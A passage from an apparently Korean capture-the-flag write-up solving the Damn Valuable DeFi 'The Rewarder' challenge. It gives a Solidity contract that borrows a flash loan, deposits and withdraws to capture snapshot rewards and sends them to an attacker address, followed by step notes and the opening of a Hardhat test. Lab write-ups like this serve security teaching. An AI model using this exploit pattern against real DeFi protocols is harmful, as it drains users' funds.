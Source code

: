 ```solidity
    address RewardPool;
    address attacker;
    IFlashLoanPool FlashLoanPool;
    DamnValuableToken public immutable liquidityToken;
    AccountingToken public accToken;
    RewardToken public immutable rewardToken;
    
    constructor(address _RewarderPool,address _LoanPool, address _DVT ,address _acT,address _reT,address _attacker){
        RewardPool = _RewarderPool;
        FlashLoanPool = IFlashLoanPool(_LoanPool);
        liquidityToken = DamnValuableToken(_DVT);
        accToken = AccountingToken(_acT);
        rewardToken = RewardToken(_reT);
        attacker=_attacker;
    }
    function solve(uint256 amount)public { // 대출받기
        FlashLoanPool.flashLoan(amount);
    }
    function receiveFlashLoan(uint256 amount) public {// 대출받고나면 실행될 함수
        ITheRewarderPool target=ITheRewarderPool(RewardPool);
        liquidityToken.approve(RewardPool,liquidityToken.balanceOf(address(this)));
        target.deposit(liquidityToken.balanceOf(address(this)));
        target.withdraw(accToken.balanceOf(address(this)));
        rewardToken.transfer(attacker,rewardToken.balanceOf(address(this)));
        liquidityToken.transfer(msg.sender,amount);
    }

}
```

DamnValuableToken을 사용하므로 DamnValuableToken을 import하고 선언해주었으며

AccountingToken을 이용하여 출금해주므로 AccountingToken 또한 import하고 선언해주었고

RewardToken을 내 공격자 주소(attacker.address)로 보내는 것이 목적이기 때문에 RewardToken도 선언해주었따.

생성자를 통해 RewardPool의 주소, 대출 풀의 주소, 각 토큰의 주소 및 공격자의 주소를 받아서 저장해준다.

공격은 solve를 통해 대출 풀에 있는 양만큼 대출을 받으면 대출 풀에서 내 컨트랙트의 receiveFlashLoan함수를 실행시킨다.

1. 생성자로 저장해 두었던 RewarderPool의 주소를 인터페이스로 감싸 target으로 넣는다.
2. deposit함수를 호출하기 전에 approve를 먼저 해야한다고 써져있었기에 RewardPool주소에게 내 컨트랙트가 가진 토큰 만큼 승인해준다.
3. RewarderPool의 deposit으로 내 컨트랙트가 가진 토큰 만큼 입금한 후
4. 입금하면서 받은 accToken 만큼 다시 출금해준다.
5. 그러면 타이밍을 맞춰서 스냅샷을 통해 받았다면 rewardToken이 컨트랙트에 들어왔을 것이기에 이를 attacker의 주소로 보낸다. 

이제 test 폴더의 The-rewarder.challange.js 에서 테스트를 통해 공격을 실행하자.

```tsx
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] The rewarder', function () {

    let deployer, alice, bob, charlie, david, attacker;
    let users;

    const TOKENS_IN_LENDER_POOL = ethers.utils.parseEther('1000000'); // 1 million tokens

    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */

        [deployer, alice, bob, charlie, david, attacker] = await ethers.getSigners();
        users = [alice, bob, charlie, david];

```